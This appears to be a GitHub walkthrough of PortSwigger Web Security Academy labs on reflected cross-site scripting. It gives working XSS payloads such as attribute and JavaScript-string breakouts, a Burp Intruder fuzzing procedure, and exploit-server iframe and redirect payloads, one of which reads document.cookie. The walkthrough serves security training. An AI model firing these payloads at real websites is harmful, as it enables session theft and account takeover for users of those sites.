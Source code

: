 ## XXX(Cross-site scripting)

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions
that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy,
which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities
normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data.
If the victim user has privileged access within the application,
then the attacker might be able to gain full control over all of the application's functionality and data. 


## 1. Reflected XSS into HTML context with nothing encoded

You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html like

    <h1>
    0 search results for 'asif'
    </h1>
     

 ## This is Vulnerably

 ## 2. Reflected XSS into attribute with angle brackets HTML-encoded
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html input filed like
 
    <input type=text placeholder='Search the blog...' name=search value="asif">

Notice That 

    name=search value="asif" 
    
 The asif is double '' so use the paylods like double '' for example 
 
    "onmouseover="alert(1)
    
 
 ## This is Vulnerably
 
 
 ## 3. Reflected XSS into a JavaScript string with angle brackets HTML encoded 
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in JavaScript filed like
 
    <script>
    var searchTerms = 'asif';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
 
 Paylods 
 
    '-alert(1)-'
 
 
 ## This is vulnerably 
 
 
 ## 4. Reflected XSS into HTML context with most tags and attributes blocked
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in html This is 
 vulnerably and Inject a standard XSS paylods Observe that this gets blocked most html tages attributes are blocked.
 
You Have a Search Funtion and search like asif and intercept the request and sand the intruder and remove asif and add <> and set paylods in <> like <$$> 
 
    GET /?search=<$$> HTTP/1.1
    Host: 0a130031045b2eeac06b090600110008.web-security-academy.net
    Cookie: session=Xvy6OLwWRumjRFxHQqruIfV77mnV5YmN
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0a130031045b2eeac06b090600110008.web-security-academy.net/
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
 
Visit the XSS cheat sheet and click "Copy tags to clipboard". 

In Burp Intruder, in the Payloads tab, click "Paste" to paste the list of tags into the payloads list. Click "Start attack".

When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the body payload, which caused a 200 response. 

## body tags is 200 Ok

Go back to the Positions tab in Burp Intruder and replace your search term and set paylods position <body%20&&=1> like 

    GET /?search=<body%20§§=1> HTTP/1.1
    Host: 0ac4000e03c21f41c110a9200039006d.web-security-academy.net
    Cookie: session=743GVgVjqrfVKWWEuPfUvbDnYFHCsM5l
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: https://0ac4000e03c21f41c110a9200039006d.web-security-academy.net/
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close
   

 Visit the XSS cheat sheet and click "copy events to clipboard".
 
 In Burp Intruder, in the Payloads tab, click "Clear" to remove the previous payloads. Then click "Paste" to paste the list of attributes into the  payloads list. Click "Start attack".
 
 When the attack is finished, review the results. Note that all payloads caused an HTTP 400 response, except for the onresize payload, which caused a 200 response. 
 
 ## onresize 200 ok
 
 Go to the exploit server and paste the following code, replacing your-lab-id with your lab ID: 
 
    <iframe src="https://your-lab-id.web-security-academy.net/?search=%22%3E%3Cbody%20onresize=print()%3E" onload=this.style.width='100px'>
     
  Click "Store" and "Deliver exploit to victim". 
 
 
 ## 5. Reflected XSS into HTML context with all tags blocked except custom ones
 
  Go to the exploit server and paste the following code, replacing your-lab-id with your lab ID: 
  
    <script>
    location = 'https://your-lab-id.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x';
    </script>
  
 Click "Store" and "Deliver exploit to victim".
 
 
 ## 6. Reflected XSS into a JavaScript string with single quote and backslash escaped
 
 You Have a Search Funtion and search like asif and intercept the request and sand the repeter and Observe that asif is reflected in JavaScript string
 
 Try Search like 
 
     asif'khan
     
and observe that your single quote gets backslash-escaped, preventing you from breaking out of the string. like

    <h1>
    0 search results for 'asif&apos;khan'
    </h1>
    
    <script>
    var searchTerms = 'asif\'khan';
    document.write('<img src="/resources/images/tracker.gif?searchTerms='+encodeURIComponent(searchTerms)+'">');
    </script>
    
    
    
    
    
    
    
    
    
    
    
    
 
 
